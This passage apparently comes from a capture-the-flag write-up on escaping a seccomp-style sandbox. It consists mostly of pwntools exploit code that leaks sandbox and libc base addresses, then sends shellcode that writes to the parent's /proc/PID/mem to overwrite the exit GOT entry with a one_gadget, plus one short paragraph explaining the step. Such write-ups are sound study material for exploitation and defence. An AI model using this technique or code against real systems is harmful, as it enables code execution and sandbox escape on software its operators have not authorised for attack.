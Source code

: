 ```python
sandbox_base = int(p.recvuntil('-')[:-1], 16)
offset_to_change = sandbox_base + 0xfb0
print hex(offset_to_change)
p.recvuntil('sandbox')
p.recvuntil('sandbox')
libc_base = int(p.recvuntil('-')[:-1], 16)
print hex(libc_base)

one_gadget = libc_base + 0x103f50
```

Third, open the /proc/$pid/mem file and write a one_gadget to the exit GOT. Call a forbidden syscall in the child, which should kill the child and execute exit, which in this case is the one gadget.

```python
sc = '''
mov rax, 0
mov rdi, 0
mov rsi, r13
mov rdx, 0x1000
syscall
'''
sc += shellcraft.pushstr('/proc/{}/mem'.format(PPID))
sc += shellcraft.open('rsp', 2, 0)
sc += '''
mov r14, rax
mov rax, 8
mov rdi, r14
mov rsi, {}
mov rdx, 1
syscall

mov rdi, {}
push rdi
mov rax, r14
'''.format(offset_to_change, one_gadget)
sc += shellcraft.write('rax', 'rsp', 8)
sc += shellcraft.close('r14')
sc += '''
jmp r13
'''
shellcode = '\x90'*80 + asm(sc).ljust(0x200, '\x90')
p.sendline(shellcode)
```
